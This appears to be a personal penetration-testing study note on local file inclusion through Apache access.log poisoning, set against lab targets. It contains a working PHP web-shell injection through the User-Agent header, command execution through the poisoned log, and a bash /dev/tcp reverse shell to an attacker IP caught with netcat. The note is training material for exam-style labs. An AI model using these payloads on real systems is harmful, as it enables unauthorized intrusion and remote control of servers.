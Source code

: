 
# Local File Inclusion (LFI)
Many people mix up local file inclusion and [directory traversal](../web-apps/directory-traversal.md), but they are very different. THe biggest difference b/w them is that local file inclusion results in a file bing *included in the application's running code*, which ultimately means it can be leveraged for *code execution*. Directory traversal, on the other hand, just results in the attacker being able to *read* the file (not execute it). 

One way to identify an LFI from directory traversal is *how the file is displayed* on the webpage/etc when accessed. For example, an image file like a jpeg which is accessed through a directory traversal will be displayed as raw jpeg data in ASCII. A jpeg file accessed through LFI will be rendered as the actual image by the server.
## Log Poisoning
One way to achieve LFI is through log poisoning. Log poisoning occurs when the malicious data we send to the server is saved in the web server's logs. If you can find a way to get *executable code* saved in the server's log files, then it will execute (if we access it through an LFI).
### Example: `access.log`
Depending on the version, Apache servers usually include an `access.log` file which is usually found in `/var/log/apache2`. To figure out which user input is included in the log file, we can either read the documentation, find examples of it online, or (if the server is vulnerable to directory traversal) access the log file ourselves.

Assuming the server is vulnerable to directory traversal via a php parameter, we might use directory traversal to access it like this:
```bash
curl 'http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log' --path-as-is

192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
From the output, we can see that our user agent and the requested URL path are included in the logs. So, we can try to get code execution by inserting our own code into `access.log` via either the user agent of the file path.
#### User Agent
Using [burp suite](../../cybersecurity/TTPs/delivery/tools/burp-suite.md)'s Repeater tab, we can create the following [HTTP](../../www/HTTP.md) `GET` request and manipulate the user agent string that is sent with the request:
```http
GET /meteor/index.php?page=admin.php HTTP/1.1
Host: 192.168.216.16
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
Accept: text/html, application/xhtml+xml,application/xml
...
```
We can also do this with [curL](../../CLI-tools/linux/remote/curL.md):
```bash
curl --path-as-is -i -s -k -X $'GET' -H $'Host: 192.168.216.16' -H $'User-Agent: Mozilla/5.0 <?php echo system($_GET[\'cmd\']); ?>' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-Us,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1'   $'https://192.168.216.16/meteor/index.php?page=admin.php'
```
##### Sending the `ps` command
Assuming our request was written to the log file, we can try to execute it by leveraging the directory traversal vulnerability. To do that, we'll send a similar request, but this time we'll request the parameter we injected into the log files via our php script (`cmd`). If it works correctly, then PHP will execute whatever *linux based* command we give it in the next [curL](../../CLI-tools/linux/remote/curL.md) request:
```bash
curl http://192.168.216.16/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
If this works, the response should include output from the underlying linux system where the `ps` command was run (so we should be a list of running processes). 
![](../oscp-pics/local-file-inclusion-1.png)
##### Sending the `ls -la` command
If we update our request to send the linux `ls -la` command, we get the following error:
![](../oscp-pics/local-file-inclusion-2.png)
This is because of the space between `ls` and the flag. We need to *URL encode* the space to prevent the error and successfully execute the code in `access.log`. So, change the url in our request and replace the space with `%20`. It should look like: `/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la`.
![](../oscp-pics/local-file-inclusion-3.png)
### Escalating to a Reverse Shell
Now that we've verified code execution on the target, we can leverage this to get a [rev-shell](../../cybersecurity/TTPs/exploitation/rev-shell.md)! To do this, we'll replace the value we've given `cmd` to a common [bash](../../coding/languages/bash.md) one-liner:
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
This command starts a bash shell in interactive mode (with the `-i` flag). It also uses the `>` and `&` to *redirect stdout and stderr* from the bash process *to the device file `/dev/tcp/192.168.119.3/4444`*. This is important because `>` will *create the file if it doesn't exist*. The [device-file](../../computers/linux/device-file.md) created by this one-liner will try to establish a [TCP](../../networking/protocols/TCP.md) connection to `192.168.119.3` on port `4444`. So, theoretically, the IP address is *our machine* and we need to have some kind of listener already listening to port `4444` so we can catch the connection the script will try to make with us (this is why it's called a reverse shell). 

The `0>&1` portion of the command says that input/stdin for the bash shell (file descriptor `0`) should be *read* from the same source as stdout (file descriptor `1`) is being written to (which we set to the connection made by `/dev/tcp/192.168.119.3/4444`). So basically, this command will start a bash shell process, and open a TCP connection to a remote host (which is really us). The bash shell will read input from the TCP connection and write its output back to the TCP connection.
#### Fixing the command
Because PHP is ultimately what will execute our command, there's a chance that *sh* (Borne Shell) will be executed instead of bash (Bourne Again Shell). Our oneliner is written with syntax that sh will not understand and execute. To protect our payload and ensure it gets execute correctly by PHP, we can edit it so that bash is ultimately the shell process that gets started and executes our rev shell. 

To fix it, we're just going to wrap it in another bash command. This will ensure that a bash shell process will be started to execute our rev shell and not a sh process:
```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
The `-c` flag tells bash (or sh) to execute the following string as a command. So, when this oneliner gets executed, ultimately two bash processes will have been started, the wrapper (`bash -c`) and the command we give the wrapper (the string).

Before sending this, we also have to make sure to URL encode it so the spaces don't cause an HTTP error:
```http
GET http://192.168.204.16/meteor/index.php?page=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F4444%200%3E%261%22 HTTP/1.1
host: 192.168.204.16
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
content-length: 0
```
#### Setting up a listener
Now that our request body with the payload is ready, we need to set up a listener on port `4444` to listen and connect to the incoming request. Otherwise, even if the revshell works, we won't know because the port on our computer is closed and won't accept the incoming TCP connection.

To do this, we can use [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) as a listener. The following netcat command will put netcat into listen mode. We'll give netcat port `4444` to listen on, but we don't have to give an address. Without an address, netcat will default to listening to the *any* address `0.0.0.0`. Basically, the any address means netcat will listen on *all network interfaces* for connections coming in to port `4444`.
```bash
nc -nvlp 4444
listening on [any] 4444 ...
```
Once we see netcat is listening, we can send our modified GET request with our revshell payload:
![](local-file-inclusion-4.png)
If it works, the output in netcat should reflect that:
```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.119.3] from (UNKNOWN) [192.168.50.16] 57848
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
From the output, we can see that our revshell executed successfully and given us an interactive bash shell into the target machine. The PHP process that executed the shell executed it as the user `www-data` from the directory `/var/www/html/meteor`.  Using `ls` to list the content of the directory the shell executed from, we can even see our `admin.php` file.
## LFI in Other Contexts
The only real difference in exploiting LFI on a Windows target than a Linux one is the file paths and languages  executing the code. For instance, the PHP script used to execute commands in the last Linux example would work the same if executed on a Windows host. This is because the PHP system function used to execute the code snippet is independent of the operating system (it knows how to change the execution on the underlying OS to achieve the same result).

What's more important than the operating system of the target is the *web application's programming language*, its version, and how the server is configured. In other words, PHP is not the only framework or server-side scripting language which can be abused for LFI and RFI vulnerabilities.
### LFI in Java Server Pages
As an example, lets investigate LFI in a JSP web application. If we try to carry out the same sequence of events as mentioned in the Log Poisoning section,  we would be trying to write JSP code to some kind of log file (Log Poisoning), and then access the file using LFI. The only difference would be the code snippet we inject into the log (it would be in JSP instead of PHP). 

However, PHP is going to be the most common scripting language you'll come across for LFI vulnerabilities. That's because the other web scripting languages like JSP are dated and not implemented as often. We're also likely to find them in [javascript](../../coding/languages/javascript.md)/ Node implementations. But, LFI vulns are not as common as they used to be because web security has improved.

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.